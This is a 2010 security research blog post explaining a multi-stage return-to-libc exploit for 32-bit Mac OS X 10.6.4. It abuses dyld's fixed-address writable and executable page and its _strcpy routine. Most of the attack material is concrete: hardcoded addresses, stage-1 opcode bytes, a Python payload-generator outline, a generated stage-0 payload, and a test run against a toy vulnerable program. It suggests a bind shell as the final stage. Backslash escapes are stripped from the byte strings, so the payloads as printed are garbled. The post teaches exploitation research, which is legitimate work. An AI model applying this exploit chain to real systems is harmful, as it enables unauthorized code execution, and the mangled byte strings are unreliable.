 ```yaml
---
title: Simple Mac OS X ret2libc exploit (x86)
author: longld
layout: post

shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:71:"http://www.vnsecurity.net/2010/10/simple-mac-os-x-ret2libc-exploit-x86/";s:7:"tinyurl";s:26:"http://tinyurl.com/35yhmfz";s:4:"isgd";s:18:"http://is.gd/fUAZp";}'
tweetbackscheck:
  - 1408358974
aktt_notify_twitter:
  - no
twittercomments:
  - 'a:32:{i:26539715084;s:7:"retweet";i:26538286221;s:7:"retweet";i:26536522154;s:7:"retweet";i:26520380144;s:7:"retweet";i:26514897500;s:7:"retweet";i:26513100946;s:7:"retweet";i:26504151439;s:3:"430";i:26495351449;s:3:"431";i:26493490627;s:7:"retweet";i:26489800605;s:7:"retweet";i:26481180070;s:7:"retweet";i:26481124490;s:7:"retweet";i:26481072636;s:7:"retweet";i:26481059761;s:7:"retweet";i:26480946053;s:7:"retweet";i:26480917203;s:7:"retweet";i:26479334248;s:7:"retweet";i:26479224531;s:7:"retweet";i:26478784886;s:7:"retweet";i:26476778418;s:7:"retweet";i:26472792944;s:7:"retweet";i:26466344621;s:7:"retweet";i:26466033093;s:7:"retweet";i:26466030274;s:7:"retweet";i:26464938746;s:7:"retweet";i:26464387128;s:7:"retweet";i:26463995575;s:7:"retweet";i:26463608056;s:7:"retweet";i:26442315197;s:7:"retweet";i:26437569074;s:7:"retweet";i:26437440169;s:7:"retweet";i:26437166351;s:7:"retweet";}'
tweetcount:
  - 32
category:
  - research
tags:
  - OSX
  - return-oriented-programming
  - return-to-libc
  - ropeme
---
```

Talking about buffer overflow exploit on x86, Mac OS X is the most easy and hacker friendly target compare to Linux or Windows. OS X always loads **/usr/lib/dyld **at a fixed location and it contains a lot of helper stubs to launch the exploit. If you want something advanced likes ROP (Return-Oriented-Programming) exploit you may have a look at &#8220;<a href="http://trailofbits.com/2010/07/21/mac-os-x-return-oriented-exploitation/" target="_blank">Mac OS X Return-Oriented Exploitation</a>&#8221; and thorough step-by-step guide &#8220;<a href="http://www.exploit-db.com/osx-rop-exploits-evocam-case-study/" target="_blank">OSX ROP Exploit – EvoCam Case Study</a>&#8220;. But actually, we don&#8217;t need ROP for 32-bit exploitation on OS X, simple ret2libc is enough and straightforward to implement. Let take a look at multi-stage ret2libc exploit on OS X.

## The target

Under OSX, dyld is always loaded at a fixed location with __IMPORT page is RWX as shown below:

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__TEXT                 8fe00000-8fe0b000 [   44K] r-x/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__TEXT                 8fe0b000-8fe0c000 [    4K] r-x/rwx SM=PRV  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__TEXT                 8fe0c000-8fe42000 [  216K] r-x/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__LINKEDIT             8fe70000-8fe84000 [   80K] r&#8211;/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__DATA                 8fe42000-8fe44000 [    8K] rw-/rwx SM=PRV  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__DATA                 8fe44000-8fe6f000 [  172K] rw-/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__IMPORT               8fe6f000-8fe70000 [    4K] rwx/rwx SM=COW  /usr/lib/dyld
</div>

<pre><strong>__TEXT                 8fe00000-8fe0b000 [   44K] r-x/rwx SM=COW  /usr/lib/dyld</strong>
__TEXT                 8fe0b000-8fe0c000 [    4K] r-x/rwx SM=PRV  /usr/lib/dyld
__TEXT                 8fe0c000-8fe42000 [  216K] r-x/rwx SM=COW  /usr/lib/dyld
__LINKEDIT             8fe70000-8fe84000 [   80K] r--/rwx SM=COW  /usr/lib/dyld
__DATA                 8fe42000-8fe44000 [    8K] rw-/rwx SM=PRV  /usr/lib/dyld
__DATA                 8fe44000-8fe6f000 [  172K] rw-/rwx SM=COW  /usr/lib/dyld
<strong>__IMPORT               8fe6f000-8fe70000 [    4K] rwx/rwx SM=COW  /usr/lib/dyld</strong></pre>

<span style="font-family: Georgia, 'Times New Roman', 'Bitstream Charter', Times, serif;line-height: 19px;font-size: 13px">Our target is to transfer the desired shellcode to the __IMPORT section of dyld then execute it. We can simply do this with byte-per-byte copy way of <a href="http://www.vnsecurity.net/2010/08/ropeme-rop-exploit-made-easy/">ROPEME</a>. There is some disadvantages with this method:</span>

<span style="font-family: Georgia, 'Times New Roman', 'Bitstream Charter', Times, serif;line-height: 19px;font-size: 13px"> </span>

*   Payload size is large, around 10 times of actual shellcode
*   We have to re-generate the whole payload when changing to new shellcode

With OS X we can do it better as there is a RWX page at static location.

## Staging payload

The most complicated part of ROP technique is &#8220;stack pivoting&#8221; or ESP register control under ASLR. By executing a small shellcode we can take ESP under control easily. Our multi-stage payload will look like:

### Stage-2: actual shellcode

This is the last stage in our multi-stage payload. Any NULL-free shellcode can be used, e.g bind shell code from Metasploit.

### Stage-1: shellcode loader for stage-2 payload

This stage will transfer stage-2 payload on stack to __IMPORT section (RWX) of dyld then executes it. The transfer function is *_strcpy() *in dyld. Below small shellcode will be executed on RWX page to perform the job:

<pre># 58                pop eax     # eax -&gt; TARGET
# 5B                pop ebx     # ebx -&gt; STRCPY
# 54                push esp    # src -&gt; &shellcode
# 50                push eax    # dst -&gt; TARGET
# 50                push eax    # jump to TARGET when return from _strcpy()
# 53                push ebx    # STRCPY
# C3                ret         # execute _strcpy(TARGET, &shellcode)</pre>

### Stage-0: ret2libc loader for stage-1 payload

This stage will transfer 7 bytes of stage-1 payload to our RWX location using repeated *_strcpy() *calls, then executes it. We lookups the dyld for necessary byte values and copy it to the target byte-per-byte.

In summary, there is some advantages with our multi-stage payload:

*   Straightforward to implement: only ret2libc calls, no gadget is required
*   Payload size overhead is small: around 100 bytes
*   Independent, generic loader code: no need to regenerate the whole payload, just append a new shellcode to make new payload

## Automated payload generator

Let put all this together and make an automated payload generator in Python.

*   Select the target

<pre class="brush: python; title: ; notranslate" title="">#__IMPORT               8fe6f000-8fe70000 [    4K] rwx/rwx SM=COW  /usr/lib/dyld
TARGET = 0x8fe6f010 # to avoid NULL byte
# dyld base address
DYLDADDR = 0x8fe00000
</pre>

*   Extract dyld&#8217;s i386 code

<pre class="brush: python; title: ; notranslate" title=""># $ otool -f /usr/lib/dyld
# ...
#architecture 1
#    cputype 7
#    cpusubtype 3
#    capabilities 0x0
#    offset 352256
#    size 368080
#    align 2^12 (4096)
# ...

DYLDFILE = "/usr/lib/dyld"
DYLDCODE = open(DYLDFILE, "rb").read()
DYLDCODE = DYLDCODE[352256 : 352256+368080]
</pre>

*   _strcpy() call

<pre class="brush: python; title: ; notranslate" title=""># $ nm -arch i386 /usr/lib/dyld | grep _strcpy
# 8fe2db10 t _strcpy
STRCPY = 0x8fe2db10

# $ otool -arch i386 -tv /usr/lib/dyld | grep pop -A2 | grep ret -B1 | grep pop
# 8fe28790        popl    %edi
# 8fe2b3d4        popl    %edi
POP2RET = 0x8fe2878f
</pre>

*   stage-1

<pre class="brush: python; title: ; notranslate" title=""># stage1
# 58                pop eax     # eax -&gt; TARGET
# 5B                pop ebx     # ebx -&gt; STRCPY
# 54                push esp    # dst -&gt; &shellcode
# 50                push eax    # src -&gt; TARGET
# 50                push eax    # jump to TARGET when return from _strcpy()
# 53                push ebx    # STRCPY
# C3                ret         # execute _strcpy(TARGET, &shellcode)

STAGE1 = "x58x5bx54x50x50x53xc3"
</pre>

*   stage-0

<pre class="brush: python; title: ; notranslate" title=""># stage0: _strcpy sequences
STAGE0 = gen_stage0(DYLDCODE, STAGE1)
</pre>

Below is the stage-0 payload loader generated for OS X 10.6.4:

<pre class="brush: python; title: ; notranslate" title="">STAGE0 = (  "x10xdbxe2x8fx8fx87xe2x8fx10xf0xe6x8fx31x24xe1x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx12xf0xe6x8fx32x01xe0x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx13xf0xe6x8fx7ex21xe1x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx15xf0xe6x8fx45x10xe0x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx16xf0xe6x8fx44x10xe0x8f"
            "x10xf0xe6x8fx10xf0xe6x8fx10xdbxe2x8f" )
</pre>

Test the payload with simple buffer overflow:

<pre class="brush: plain; title: ; notranslate" title="">bash-3.2$ ./vuln "`python -c 'print "A"*272 + "x10xdbxe2x8fx8fx87xe2x8fx10xf0xe6x8fx31x24xe1x8fx10xdbxe2x8fx8fx87xe2x8fx12xf0xe6x8fx32x01xe0x8fx10xdbxe2x8fx8fx87xe2x8fx13xf0xe6x8fx7ex21xe1x8fx10xdbxe2x8fx8fx87xe2x8fx15xf0xe6x8fx45x10xe0x8fx10xdbxe2x8fx8fx87xe2x8fx16xf0xe6x8fx44x10xe0x8fx10xf0xe6x8fx10xf0xe6x8fx10xdbxe2x8f" + "xcc"*4'`

...

Trace/BPT trap

bash-3.2$

</pre>

Looking for the next? Maybe &#8220;Mac OS X ROP exploit on x86_64&#8243; someday.
